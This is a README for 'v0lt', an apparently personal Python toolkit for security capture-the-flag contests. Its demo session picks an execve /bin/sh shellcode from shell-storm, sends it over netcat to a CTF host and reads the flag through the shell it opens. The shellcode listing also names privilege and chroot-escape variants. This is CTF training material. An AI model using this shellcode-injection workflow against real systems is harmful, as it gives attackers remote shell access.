 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style. 
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
Dependencies:   
* Python3    
  * BeautifulSoup    
  * Requests    

```Bash
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
sudo python3 setup.py install # sudo is required for potentially missing dependencies    
```

##Demo: Shellcodes
```Python
>>> from v0lt import shellcode
>>> from v0lt.netcat import Netcat
>>> nc = Netcat("remote.ctf.com", 4444)
Port 4444: GIVE ME SHELLCODZ
>>> shell_code = shellcode.get_shellcodes("bin","execve")

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
You chosed http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"
>>> nc.write(shell_code)
$ ls
README.md  commit.sh  setup.py  v0lt  flag.txt
$ cat flag.txt
myCTF{3d1DD1C223DcfddDAe1D0faaD1BEEADdaabB2Ea0DeB023aCdebbABCCB01ccacf}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (Xor)    
    * Usual conversions (bytes/strings/hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)    

* Shellcodes    
    * Shellcode selection    
    * Shellcode format from Shell-storm repo    

* Easy connection support    
    * Netcat    
    * Telnet    

And more !